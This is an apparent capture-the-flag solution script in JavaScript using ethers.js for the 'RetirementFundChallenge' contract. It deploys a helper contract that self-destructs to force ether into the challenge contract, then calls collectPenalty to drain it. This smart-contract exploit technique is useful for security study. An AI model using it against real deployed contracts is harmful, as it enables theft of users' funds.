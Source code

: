 // ethers is already injected

const provider = new ethers.providers.JsonRpcProvider($rpcUrl)
const signer = provider.getSigner()
const address = await signer.getAddress()
const contract1 = $contracts["RetirementFundChallenge"]
const contract2 = $contracts["Destruct"]
const factory1 = new ethers.ContractFactory(contract1.abi, contract1.evm.bytecode, provider.getSigner())
const factory2 = new ethers.ContractFactory(contract2.abi, contract2.evm.bytecode, provider.getSigner())

const ch = await factory1.deploy(address, { value: ethers.utils.parseEther("1"), gasLimit: 1000000 })
const dc = await factory2.deploy({ value: ethers.utils.parseEther("1"), gasLimit: 1000000 })

await dc.destroy(ch.address);
await ch.collectPenalty();

console.log(`Player: ${(await ch.isComplete()).toString()}`)
